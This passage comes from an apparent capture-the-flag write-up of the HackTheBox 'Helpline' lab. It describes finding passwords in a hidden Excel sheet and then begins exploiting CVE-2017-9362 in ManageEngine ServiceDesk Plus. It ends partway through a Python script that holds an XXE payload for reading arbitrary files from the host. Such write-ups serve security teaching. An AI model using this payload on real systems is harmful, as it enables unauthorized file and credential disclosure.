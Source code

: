 ![1555099757085](https://0xdfimages.gitlab.io/img/1555099757085.png)

Even the guest login will enable some authenticated vulnerabilities.

#### Password+Audit.xslx

Logged in as guest, on the “Solutions” tab, there’s a series of items. At the very bottom, there’s one entitled “Password Audit”:

![1555100073296](https://0xdfimages.gitlab.io/img/1555100073296.png)

Clicking on it, there’s a note pointing towards the attachment:

![1555100122618](https://0xdfimages.gitlab.io/img/1555100122618.png)

The attachment has a sheet called “Password Audit” with a chart:

![1555100250346](https://0xdfimages.gitlab.io/img/1555100250346.png)

I decided to check for code or anything else in the editor, so I hit Alt+f11 to open VBA, and right away I noticed a second sheet:

![1555100297166](https://0xdfimages.gitlab.io/img/1555100297166.png)

Back in Excel, right-click on the sheets and select “Unhide…”

![1555100328934](https://0xdfimages.gitlab.io/img/1555100328934.png)

The popup asks me to select a sheet. The only option is “Password Data”:

![1555100355976](https://0xdfimages.gitlab.io/img/1555100355976.png)

This sheet has a bunch of good info, including some passwords to try, and a location for audit details saved at `C:\Temp\Password Audit\it_logins.txt` on HELPLINE:

![1555100429458](https://0xdfimages.gitlab.io/img/1555100429458.png)

## ME SDP Vulnerabilities

This version of ManageEngine ServiceDesk Plus has numerous vulnerabilities in it. I used two to gather additional information.

### CVE-2017-9362 - XXE

#### Vulnerability

There is an XML External Entity vulnerability that lets me get files from the host. This vulnerability is described [here](https://labs.integrity.pt/advisories/cve-2017-9362/index.html). I wrote a quick script that allows me to request a file:

```

import requests
import sys

xxe = """<!DOCTYPE foo [<!ENTITY xxe15d41 SYSTEM "file:///{filepath}"> ]><API version='1.0' locale='en'>
    <records>
        <record>
            <parameter>
                <name>CI Name</name>
                <value>Tomcat Server 3 0xdfstart&xxe15d41;0xdfstop</value>
            </parameter>
        </record>
    </records>
</API>
```